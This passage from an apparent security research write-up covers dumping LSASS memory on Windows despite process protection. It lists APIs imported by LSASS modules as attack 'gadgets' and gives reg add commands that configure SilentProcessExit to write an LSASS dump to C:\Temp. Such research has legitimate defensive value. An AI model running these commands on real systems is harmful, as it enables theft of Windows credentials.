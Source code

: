 ```powershell
# List unique functions and save the result to a file
$AllImports | Sort-Object -Unique | Out-File .\lsass_loaded_modules_functions.txt

# List all APIs imported by modules loaded in LSASS
# Result: MODULE,MODULE_IMPORT,FUNCTION_IMPORT
foreach ($m in (Get-Content .\lsass_loaded_modules.txt)) {
    if ($m -notlike "*.dll") { continue }
    $Header = Get-PEHeader "C:\Windows\System32\$m"
    $Header.Imports | % {
        "$($m),$($_.ModuleName),$($_.FunctionName)" | Out-File .\lsass_loaded_modules_functions.txt -Append
    }
}

# List all imported APIs
Get-Content .\lsass_loaded_modules_functions.txt | ConvertFrom-Csv -Delimiter "," -Header "Module","ModuleImport","FunctionImport" | select -ExpandProperty FunctionImport | Sort-Object -Unique | Out-File .\lsass_loaded_modules_functions_uniq.txt
```

Among those APIs, I considered the two listed below as potential "One Gadgets".

- Call `RtlReportSilentProcessExit` to generate a process dump (see [LsassSilentProcessExit](https://github.com/deepinstinct/LsassSilentProcessExit)).
- Call `NdrServerCall2` with a specially crafted RPC message (see [Exploiting Windows RPC to bypass CFG mitigation](https://iamelli0t.github.io/2021/04/10/RPC-Bypass-CFG.html)) to invoke `DuplicateHandle`, in order to obtain a handle with extended rights on LSASS.

## WER Report Silent Process Exit

If this [technique](https://www.deepinstinct.com/blog/lsass-memory-dumps-are-stealthier-than-ever-before-part-2) works, it's a quick win because it only requires a process handle to be passed as the first parameter, the second parameter (i.e. the process exit code) being irrelevant.

```cpp
NTSTATUS NTAPI RtlReportSilentProcessExit(
    In HANDLE ProcessHandle,
    In NTSTATUS ExitStatus
);
```

However, since the process is protected, I expected the dump to be performed by `WerFaultSecure.exe`, in which case it would be encrypted. Anyway, this theory was easy to test, so I decided to give it a shot.

To do so, we just need to configure a couple of registry keys, replace the address of `OutputDebugStringW` with the address of `RtlReportSilentProcessExit`, and set the value of the first parameter to `(HANDLE)-1` (pseudo-handle of the current process).

```batch
REM Configure Image File Execution Options
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\LSASS.exe" /v "GlobalFlag" /t REG_DWORD /d 512 /f
REM Configure SilentProcessExit options
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\lsass.exe"
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\lsass.exe" /v "ReportingMode" /t REG_DWORD /d 2 /f
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\lsass.exe" /v "LocalDumpFolder" /t REG_SZ /d "C:\Temp" /f
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\lsass.exe" /v "DumpType" /t REG_DWORD /d 2 /f
```

